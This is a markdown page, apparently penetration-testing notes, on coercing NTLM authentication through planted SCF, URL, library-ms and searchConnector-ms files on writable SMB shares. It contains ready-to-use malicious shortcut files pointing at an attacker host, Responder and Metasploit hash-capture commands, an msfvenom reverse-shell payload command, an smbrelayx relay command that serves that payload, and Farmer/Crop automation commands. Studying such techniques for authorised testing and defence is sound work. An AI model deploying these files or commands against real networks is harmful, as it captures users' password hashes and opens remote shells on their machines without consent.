 # SCF File Attacks

SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive information such as plain-text passwords and database connection strings. However even if a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or Meterpreter shells.

## Gathering Hashes

It is not new that SCF \(Shell Command Files\) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```text
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Saving the  file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.

### **URL Files**

This attack also works with `.url` files and `responder -I eth0 -v`.

```text
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### **Windows Library Files**

Windows Library Files \(.library-ms\)

```text
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### **Windows Search Connectors Files**

Windows Search Connectors \(.searchConnector-ms\)

```text
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

```text
responder -wrf --lm -v -I vboxnet0
```

![](../../../../.gitbook/assets/image%20%28257%29.png)

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.

![](../../../../.gitbook/assets/image%20%28251%29.png)

Alternatively to Responder, Metasploit Framework has a module which can be used to capture challenge-response password hashes from SMB clients.

```text
auxiliary/server/capture/smb
```

![](../../../../.gitbook/assets/image%20%28249%29.png)

As previously when the user will browse the same share his password hash will be captured by Metasploit.

![](../../../../.gitbook/assets/image%20%28252%29.png)

If the password policy inside the company is sufficient it will take possibly days or weeks for the attacker to crack the captured hash.

## Meterpreter Shells

The main advantage of the technique above it that it doesn’t require any user interaction and automatically enforces the user to connect to a share the doesn’t exist negotiating his NTLMv2 hash. Therefore it is also possible to combine this technique with SMB relay that will serve a payload in order to retrieve a Meterpreter shell from every user that will access the share.

MSFVenom can be used to generate the payload that it will executed on the target:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.171 LPORT=5555 -f exe > pentestlab.exe
```

Coresecurity has released a set of python scripts called [Impacket](https://github.com/CoreSecurity/impacket) that can perform various attacks against Windows protocols such as SMB. Using the **smbrelayx** python script it is possible to set up and SMB server that will serve a payload when the target host will try to connect. This will performed automatically since the SCF file will enforce every to user to connect to a non-existing share with their credentials.

```text
./smbrelayx.py -h Target-IP -e ./pentestlab.exe
```

![](../../../../.gitbook/assets/image%20%28255%29.png)

Metasploit Framework needs to be used as well in order to receive back the connection upon execution of the pentestlab.exe on the target.

![](../../../../.gitbook/assets/image%20%28247%29.png)

When the user will browse the share the SMB server will receive the connection and it will use the username and the password hash to authenticate with his system and execute the payload to a writable share.

![](../../../../.gitbook/assets/image%20%28253%29.png)

A Meterpreter session will received. However in order to avoid losing the connection it is necessary to migrate to a more stable process.

## Automation

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```text
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```







